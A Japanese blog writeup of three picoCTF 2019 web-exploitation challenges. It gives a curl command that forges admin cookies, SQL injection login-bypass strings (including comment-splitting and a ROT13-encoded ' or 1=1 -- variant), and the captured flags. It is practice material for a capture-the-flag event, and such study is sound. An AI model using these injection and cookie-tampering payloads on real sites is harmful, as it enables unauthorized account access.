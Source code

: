 ```yaml
---
title: "picoCTF 2019 Writeup (Web Exploitation)"
date: 2019-10-13T12:00:00+09:00
lastmod: 2019-10-13T12:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: ""
---
```

<a href="https://captureamerica.github.io/writeups/post/picoctf_2019_web/">
<img src="https://captureamerica.github.io/writeups/img/Jp.png" alt="Japanese">日本語
</a>&nbsp;
<a href="https://translate.google.com/translate?hl=en&sl=ja&tl=en&u=https%3A%2F%2Fcaptureamerica.github.io%2Fwriteups%2Fpost%2Fpicoctf_2019_web%2F">
<img src="https://captureamerica.github.io/writeups/img/En.png" alt="English">English (Google)
</a>

<br />

URL: [https://2019game.picoctf.com/](https://2019game.picoctf.com/)
<br /><br />
2週間、お疲れ様です。

<br /><br />
最終結果は、こんな感じ。

<img src="https://captureamerica.github.io/writeups/img/pico2019_Score.png" alt="pico2019_Score.png">

<br />
イベント終了時点で、ユーザは4万人弱でした。

<img src="https://captureamerica.github.io/writeups/img/pico2019_Users.png" alt="pico2019_Users.png">

<img src="https://captureamerica.github.io/writeups/img/pico2019_Rank.png" alt="pico2019_Rank.png">

PwnとWeb系があんまりできてないけど、スコアも切りのいい20000に行ったし、Globalで目標の300位以内 (283位) にも入れたのでかなり満足です。

去年出た問題に似てるものも結構あったので、picoCTF 2018をそれなりにやった人は結構アドバンテージがあったと思います。



<br /><br />
Web Exploitation の Writeupです。




<br /><br />
## [Web Exploitation]: Open-to-admins (200 points)
- - -
### Challenge
> This secure website allows users to access the flag only if they are admin and if the time is exactly 1400. https://2019shell1.picoctf.com/problem/32249/ (link) or http://2019shell1.picoctf.com:32249
<br /><br />
Hints : Can cookies help you to get the flag?<br />

<br />
### Solution
```
curl -k -H 'Cookie: admin=True; time=1400'  https://2019shell1.picoctf.com/problem/32249/flag
```


Flag: `picoCTF{0p3n_t0_adm1n5_cc661e91}`



<br /><br />
<br /><br />
## [Web Exploitation]: Irish-Name-Repo 2 (350 points)
- - -
### Challenge
> There is a website running at https://2019shell1.picoctf.com/problem/60775/ (link). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://2019shell1.picoctf.com:60775
<br /><br />
Hints : The password is being filtered.

<br />
### Solution
picoCTF 2018のVaultと同じ問題です。

デバッグを見ようとして、以下を入れたら、Flag取れちゃった。
```
username
' /*

password
*/ or 3=3 -- &debug=1
```

Flag: `picoCTF{m0R3_SQL_plz_015815e2}`




<br /><br />
<br /><br />
## [Web Exploitation]: Irish-Name-Repo 3 (400 points)
- - -
### Challenge
> There is a secure website running at https://2019shell1.picoctf.com/problem/12271/ (link) or http://2019shell1.picoctf.com:12271. Try to see if you can login as admin!
<br /><br />
Hints : Seems like the password is encrypted.


<br />
### Solution
Burpでやったらdebug変数が見えたので、1に変えてみました。

```
POST /problem/12271/login.php HTTP/1.1
Host: 2019shell1.picoctf.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Connection: close
Referer: https://2019shell1.picoctf.com/problem/12271/login.html
Upgrade-Insecure-Requests: 1

password=admin&debug=1
```

```
password: admin
SQL query: SELECT * FROM admin where password = 'nqzva'
```

'nqzva' は、'admin' のRot13ですね。

<br />
いつものこの子を、
```
' or 1=1 --
```

Rot13して以下のようにします。
```
' be 1=1 --
```

Flag: `picoCTF{3v3n_m0r3_SQL_ef7eac2f}`



<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />

